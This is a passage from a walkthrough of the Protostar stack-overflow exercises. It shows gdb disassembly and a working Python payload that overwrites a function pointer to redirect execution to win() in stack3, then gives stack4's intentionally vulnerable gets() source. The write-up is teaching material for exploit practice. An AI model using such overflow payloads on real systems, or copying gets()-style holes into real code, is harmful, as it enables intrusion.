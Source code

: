 The stack layout in this program is exactly the same as the previous ones. The
`fp` variable is located at memory address `$esp + 0x5c` and `buffer` starts
at `$esp + 0x1c`

The interesting bit in this program is the following two lines:

```
0x08048471 <main+57>:   mov    0x5c(%esp),%eax
0x08048475 <main+61>:   call   *%eax
```

We see that the the value of `fp` is moved to `$eax` and is called. If we can
modify the value of `fp` to point to the memory location of `win()`, we will
have completed this stage.

In the disassembly of `win()`, we see that the function starts at `0x08048424`.

```
(gdb) disass win
Dump of assembler code for function win:
0x08048424 <win+0>:     push   %ebp
0x08048425 <win+1>:     mov    %esp,%ebp
0x08048427 <win+3>:     sub    $0x18,%esp
0x0804842a <win+6>:     movl   $0x8048540,(%esp)
0x08048431 <win+13>:    call   0x8048360 <puts@plt>
0x08048436 <win+18>:    leave
0x08048437 <win+19>:    ret
End of assembler dump.
```

We overwrite `fp` with `\x24\x84\x04\x08`. Remember, little-endian.

```shell
user@protostar:~$ python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | /opt/protostar/bin/stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

# stack 4

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: {% post_url 2018-01-01-nebula-walkthrough %}
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/
